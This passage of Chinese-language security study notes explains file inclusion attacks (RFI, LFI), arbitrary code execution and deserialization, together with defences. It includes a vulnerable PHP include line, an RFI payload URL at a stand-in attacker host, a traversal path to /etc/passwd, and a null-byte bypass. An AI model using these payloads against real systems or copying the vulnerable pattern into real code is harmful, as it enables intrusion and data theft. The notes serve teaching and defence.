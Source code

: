 ## 一般防範措施

- 始終驗證和淨化使用者輸入
- 使用安全的編碼實踐
- 應用框架和庫提供的安全功能
- 定期檢查和測試應用程式以發現注入漏洞

# 檔案包含攻擊（File Inclusion Attack）

- **File Inclusion Attack**（檔案包含攻擊）：當應用程式在包含檔案時，檔案路徑由使用者輸入控制，若未適當驗證或過濾輸入，攻擊者可能包含未授權檔案，導致任意程式碼執行、資料洩漏等惡意活動。

## 主要類型

- **Remote File Inclusion (RFI)**（遠端檔案包含）：當應用程式在未經適當驗證的情況下包含來自外部來源的檔案。
  - 攻擊者可以指定外部檔案的URL，應用程式會包含並執行該檔案
  - 例如：在PHP應用程式中使用 `<?php include($_GET['file']); ?>` 若未驗證 `file` 參數
  - 攻擊範例：攻擊者輸入 `http://evil.com/malicious.php` 作為參數
  - 影響：可能導致遠端程式碼執行、資料竊取等

- **Local File Inclusion (LFI)**（本地檔案包含）：當應用程式在未經適當驗證的情況下包含伺服器上的本地檔案。
  - 與RFI類似，但目標是伺服器上已存在的檔案
  - 攻擊範例：使用目錄遍歷技術，如 `../../../../etc/passwd`
  - 影響：允許讀取敏感檔案如 `/etc/passwd`，導致資訊洩漏
  - 進階利用：若攻擊者能先上傳檔案到伺服器，可結合LFI執行該檔案，實現遠端程式碼執行

## 防護措施

- 避免直接使用使用者提供的輸入於檔案包含函數中
- 使用白名單方式指定允許的檔案或目錄
- 驗證所有使用者輸入確保符合預期值
- 實施安全的編碼實踐以防止目錄遍歷
- 實施強健的檔案上傳安全措施
- 定期審查和測試應用程式是否存在檔案包含漏洞

根據[virtualcyberlabs.com](https://virtualcyberlabs.com/local-file-inclusion-lfi/)的資料，LFI通常出現在PHP應用程式中，當檔案包含機制基於使用者輸入動態引入檔案時，攻擊者可利用此漏洞讀取系統檔案、訪問應用程式配置，甚至執行惡意代碼。

在[OWASP測試指南](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion)中提到，針對某些PHP版本，攻擊者還可以使用NULL位元組（URL編碼為`%00`）來繞過檔案擴展名限制。

# 任意程式碼執行（Arbitrary Code Execution）

- **Arbitrary Code Execution**（任意程式碼執行）：攻擊者能在目標系統上執行自己的程式碼的一種漏洞
  - 被認為是高度危險的漏洞
  - 可能導致攻擊者完全控制受影響的應用程式或伺服器
  - 常見後果包括：安裝惡意軟體、資料竊取、橫向移動至網路中的其他系統

- **Deserialization Attack**（反序列化攻擊）：當應用程式在無適當驗證的情況下還原序列化資料時發生的攻擊
  - 序列化是將物件轉換成可儲存格式（如JSON）的過程
  - 反序列化是將儲存格式轉回應用程式可用物件的過程
  - 攻擊者可操縱序列化資料，注入惡意物件
  - 常見案例：應用程式還原使用者工作階段時，若未適當檢查輸入，攻擊者可建立含有惡意程式碼的假物件
